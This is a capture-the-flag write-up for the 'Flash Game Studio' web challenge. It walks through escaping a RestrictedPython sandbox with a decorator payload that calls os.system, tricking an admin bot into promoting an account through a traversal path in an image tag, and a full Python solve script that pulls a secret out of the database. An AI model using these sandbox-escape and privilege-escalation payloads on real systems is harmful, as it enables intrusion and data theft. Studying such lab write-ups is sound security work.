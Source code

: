 ```yaml
---
title: Flash Game Studio
solves: 11
points: 496
created: 2025-04-19T20:17
updated: 2025-04-20T19:59
---
```


At first glance `FlashGameHelper`  is really sus. It runs user provided code.

So I tried to exploit it first, it is protected with `RestrictedPython`, which sounds pretty secure.

It is pretty obvious that you can inject any code by using a fancy `game_name`.

My first payloads were trying to bypass the `__getitem__` and `__getattr__` ban via destructuring.

```python
ExploitGame:
    pass
g = globals()
[a,b,c,d,e,f,g,h,i,j,k,l,m,n,o,p,q,r,s,t,u,v,w,x,y,z,a1,a]=dir(g)
class Dummy
```

But then my teammate @RJCyber just gave me the payload (😭 my python jail skills have deteriorated). How did I forget about decorators bruh.

```python
@exec
@lambda x: "__import__('os').system('ls')"
def a():pass
```

## role escalation

To actually activate that payload we need to make ourselves a dev.

The admin has to visit `/admit/<uid>`, but all the templates are well defined and there is basically no place to XSS or redirect.

How?

```html
<img class="portrait" src="/user/profile_pic/{{username}}" height="150px"><br>
```

I actually tried to XSS the image tag but later realised I can just make the image point to `/admit/<uid>`.

To do this my username would be `../../admit/<uid>`.

But wait... the `username` has to be passed through a route parameter, and the `..` will be normalized by flask.

```python
@app.route("/request_access/<username>")
def request_access(username):
    visit_profile(username)
    return "Admin visited your profile but probably denied you!"
```

We can solve it by url encoding our payload, a few times.

Just keep trying until it works!

```python
payload = ("../../../admit/"+uid1)
quote(payload.replace('/', '%2F').replace('.', '%2E'))
```

Ok so now let's run this.

## sequence

1. Register 2 users A and B
2. B has username `"../../../admit/" + uid_A"`
3. B requests for admin
4. Admin tries to load image and promotes user A to admin

```html
<img class="portrait" src="/user/profile_pic/../../../admit/<uid_A>" height="150px"><br>
```

Then as admin we logout-login user A, create the game and run it.

## payload

So we can run shell commands, cool, but the flag is inside a database and getting there takes a lot of effort if we use shell.

When experimenting I also discovered that lengthy payloads seems to not work at all, so base64 encoding an entire python file is not feasible.

However after some sleep-deprived grinding I finally came up with something that worked.

```python
from app import database_helper as a
open("static\x2Fflag.txt","w").write(a.getGames("admin")[0][2])
```

This is then wrapped in the carrier shown before.

```python
E: pass
@exec
@lambda x: '\nfrom app import database_helper as a\nopen("static\\x2Fflag.txt","w").write(a.getGames("admin")[0][2])\n'
def a():pass
class D
```

And we have our final payload.

> Note that running a game requires you to put the name (the code) as an url parameter, I was lazy and just percent encoded everything.

## solve

```python
import random
import re
import requests
from urllib.parse import quote
target = "http://localhost:80"
# target = "http://54.163.45.44"


def encode(s):
    result = []
    for ch in s:
        utf8_bytes = ch.encode('utf-8')
        for b in utf8_bytes:
            result.append(f'%{b:02X}')
    return ''.join(result)


def reg(username):
    s = requests.Session()
    r = s.post(target+"/register", data={"username": username, "password": "www"})
    r.raise_for_status()
    r = s.post(target+"/login", data={"username": username, "password": "www"})
    r.raise_for_status()
    return s


def get_uid(s):
    r = s.get(target+"/profile")
    r.raise_for_status()
    pat = re.compile(r"your UID is ([\w-]+)")
    m = pat.search(r.text)
    return m.group(1)


u1 = "kumo"+str(random.randint(0, 1000000))
s1 = reg(u1)
uid1 = get_uid(s1)
payload = ("../../../admit/"+uid1)
print(payload)
s2 = reg(payload)
print(f"uid1: {uid1}")

print(s2.get(target+"/request_access/"+quote(payload.replace('/', '%2F').replace('.', '%2E'))).url)
s1.get(target+"/logout")
s1 = reg(u1)

code = '''
from app import database_helper as a
open("static\\x2Fflag.txt","w").write(a.getGames("admin")[0][2])
'''
code = """E: pass
@exec
@lambda x: """+repr(code)+"""
def a():pass
class D""".replace('/', '\\x2F').replace('&', '\\x26')

print(s1.get(target+"/dev").status_code)
s1.post(target+"/create_game", data={
    "game_name": code,
    "game_desc": "test",
}).raise_for_status()
print(s1.get(target+"/game/"+u1+"/"+encode(code)+"/test").text)
print(s1.get(target+"/static/flag.txt").text)
```

```flag
UMASS{CR0SS_th3_fl4sH_g4m3_t0_1nj3ct_Pyth0n!1!!11}
```
